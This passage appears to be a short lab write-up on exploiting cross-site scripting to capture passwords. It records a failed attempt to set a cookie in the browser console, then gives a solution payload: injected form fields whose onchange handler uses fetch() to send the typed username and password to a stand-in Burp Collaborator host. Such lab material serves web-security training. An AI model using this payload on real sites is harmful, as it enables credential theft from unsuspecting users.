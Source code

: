![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/4.png)

Next I opened the Firefox debugger's Console and set the cookie:

```
document.cookie="secret=5yN1hPLMMamjE1mFPVb7ocKMq7BSYyTK"
```



![img](images/5%20-%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/5.png)

But that does not work...


Solution:

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


